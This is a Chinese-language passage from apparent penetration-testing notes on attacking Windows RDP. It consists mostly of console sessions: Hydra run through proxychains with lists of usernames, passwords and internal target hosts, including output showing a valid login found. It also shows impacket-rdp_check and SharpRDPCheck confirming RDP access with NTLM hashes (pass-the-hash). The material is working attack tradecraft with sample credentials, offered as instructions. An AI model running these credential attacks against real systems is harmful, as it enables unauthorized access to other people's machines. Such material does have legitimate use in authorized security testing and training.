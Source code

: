 [hydra](https://github.com/vanhauser-thc/thc-hydra) 使用示例：

```console
root@kali:~# cat ./user_passwd.txt
huangmin:8I5VZpg4Mf
zhangrong:cHY716Zauf
...

root@kali:~# cat ./targets.txt
172.22.14.46:3389
...

root@kali:~# proxychains4 -q hydra -C ./user_passwd.txt -M ./targets.txt rdp -f
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-06-04 23:22:47
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 3 servers, overall 12 tasks, 242 login tries, ~61 tries per task
[DATA] attacking rdp://(3 targets):3389/

[3389][rdp] host: 172.22.14.46   login: zhangshuai   password: wSbEajHzZs

[STATUS] attack finished for 172.22.14.46 (valid pair found)
[ERROR] child 10 sent nonsense data, killing and restarting it!
[STATUS] 581.00 tries/min, 581 tries in 00:01h, 145 to do in 00:01h, 8 active
3 of 3 targets successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-06-04 23:23:56
```

> 注：kali 内置的 [medusa](https://github.com/jmk-foofus/medusa) 不包含 rdp.mod 模块（medusa -d 查看当前所有模块），如果想要使用 medusa 来爆破 rdp 需要自行编译（超麻烦的 🫤）。

[impacket-rdp_check](https://github.com/fortra/impacket/blob/master/examples/rdp_check.py) 支持使用哈希来确定目标机器是否允许该用户使用 RDP 进行登录：

```console
root@kali:~# impacket-rdp_check domain.com/administrator@10.10.10.11 -hashes :618B18AD4171A53695DD997AB02D55C4
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Access Granted
```

[SharpRDPCheck](https://github.com/3gstudent/SharpRDPCheck/) 也实现了这一效果：

```console
PS C:\Windows\System32> .\SharpRDPCheck.exe 192.168.70.128 3389 plaintext test test
[+] Valid:test  test

PS C:\Windows\System32> .\SharpRDPCheck.exe 192.168.70.128 3389 ntlmhash test 0cb6948805f797bf2a82807973b89537
[+] Valid:test  0cb6948805f797bf2a82807973b89537
```
